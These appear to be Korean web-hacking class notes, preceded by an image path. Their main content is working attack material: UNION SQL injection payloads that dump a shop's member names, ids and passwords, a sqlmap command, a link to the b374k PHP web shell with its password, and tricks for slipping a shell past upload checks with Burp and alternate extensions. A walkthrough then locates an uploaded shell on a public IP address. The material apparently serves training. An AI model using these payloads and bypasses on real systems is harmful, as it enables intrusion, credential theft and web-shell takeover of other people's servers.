 ` ' order by 7# `

` 0'union select 1,2,3,4,5,6,7# `
* 우편번호2, 주소 3456

` 0'union select 1,@@version,user(),4,database(),6,7# `

` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables# `

` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables where table_schema='gmshop'# `

` 0' union select 1,table_name,3,column_name,5,6,7 from information_schema.columns where table_schema='gmshop' and table_name='member'# `

` 0' union select 1,name,userid,pwd,5,6,7 from member # `

## 우편번호 인젝션 (SQLMAP)

* http://192.168.113.130/gm/search_post.php

` sudo sqlmap -u "http://192.168.113.130/gm/search_post.php" --data "cnt=&po=&zipcode=a" --dbs `

## 파일 업로드 취약점 조건
1. 업로드 할 때 파일 확장자에 대해 체크가 안 되어 있을 때
2. 업로드 한 웹쉘의 웹 절대 경로가 노출이 되어 있을 때
3. 업로드 된 웹쉘이 스크립트 형태로 동작할 때

## 파일 업로드 취약점 실습
* [웹쉘 다운로드 링크](https://github.com/tennc/webshell/blob/master/php/b374k/b374k-2.8.php)
    * b374k 비밀번호 -> p374k
* [beebug-unrestricted_file_upload](http://192.168.113.130/bWAPP/unrestricted_file_upload.php)
    * low, medium

* gmshop에 자료실에 php 웹쉘 올리기
    1. 버퍼스위트로 자바스크립트 php 검증 로직 삭제
    2. 버퍼스위트로 확장자를 php -> png로 바꾸기 
* 블랙 리스트 방식의 서버사이드에서의 확장자 체크 뚫는 법
    1. `php` -> ` php3, php5, phtml, PHP, pHp ` 로 변경
    2. `asp` -> ` aspx. asa, cer ` 로 변경
    3. `jsp` -> ` JsP, js%70 ` 로 변경
## 파일 업로드 취약점 시스템 침투 하는 이유
1. 침투한 웹 서비스의 소스코드를 삭제해서 웹 서비스 장애 -> [해킹당한 사이트 모음 링크](https://www.zone-h.org/?hz=1)
2. 침투한 웹 서비스에 index.html 변조해서 악성 스크립트 삽입 -> 악성코드 배포 (랜섬웨어)
3. 웹 서버를 통해 데이터베이스의 정보를 유출 -> 데이터베이스 연결 정보를 찾아내야 함 
4. 침투한 웹 서버를 통해 내부 시스템 침투하기 위한 목적 -> APT 공격

### 데이터베이스 연결 정보 찾기 실습
* 데이터베이스 연결 정보 -> admin-setting.php

### 웹 절대 경로 찾기 실습
* http://210.95.67.235:8183/ 에서 진행
1. Q&A 게시판에 글 올리기
2.  파일 경로 ` /upload_file ` 발견
3. 파일이 있는 경로 짐작해보기   
    ` http://210.95.67.235:8183/demoshop/shop_board/shop_board_list.asp? `   
    ` http://210.95.67.235:8183/demoshop/upload_file `    
    ` http://210.95.67.235:8183/demoshop/shop_board? `
    ` http://210.95.67.235:8183/demoshop/shop_board/upload_file `
4. 401 디렉터리 나열 거부 발견!
5. 웹쉘 절대경로 진입
` http://210.95.67.235:8183/demoshop/shop_board/upload_file/shell(40).asp `
